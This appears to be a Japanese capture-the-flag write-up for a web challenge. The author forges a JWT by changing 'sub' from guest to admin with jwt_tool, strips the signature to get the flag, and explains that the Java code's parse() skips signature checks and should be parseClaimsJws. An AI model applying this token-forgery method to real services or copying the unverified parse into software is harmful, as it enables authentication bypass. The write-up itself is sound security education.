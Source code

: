 ```yaml
---
title: "jalyboy-baby"
points: 100
tags: ["web"]
---
```


`login in guest` ボタンをクリックすると、こんな感じのjwtが手に入る。

- `eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.hwzUMPd20LkyVIieH_92ETWpJSLGnk3l7R03NWfUW-E`

```
$ git clone git@github.com:ticarpi/jwt_tool.git
$ cd jwt_tool
$ docker build . -t jwt_tool
$ docker run -it --entrypoint /bin/sh jwt_tool
# jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.hwzUMPd20LkyVIieH_92ETWpJSLGnk3l7R03NWfUW-E
# python3 jwt_tool.py $jwt -T

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi

Original JWT:


====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] alg = "HS256"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] sub = "guest"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of sub is: guest
Please enter new value and hit ENTER
> admin
[1] sub = "admin"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_73b80ff3aecc43881aaa3445bc3a7d96 - Tampered token:
[+] eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.hwzUMPd20LkyVIieH_92ETWpJSLGnk3l7R03NWfUW-E
```

subをadminに書き換えて出てきたのがこれ。

- `eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.hwzUMPd20LkyVIieH_92ETWpJSLGnk3l7R03NWfUW-E`

ここから署名を削ったものを投げたらフラグゲット。

こうなっているコードだけど、parseは署名の検証は行わないらしいので、`parseClaimsJws`に変更する必要がある。

```java
Jwt jwt = Jwts.parser().setSigningKey(secretKey).parse(j);
Claims claims = (Claims) jwt.getBody();
```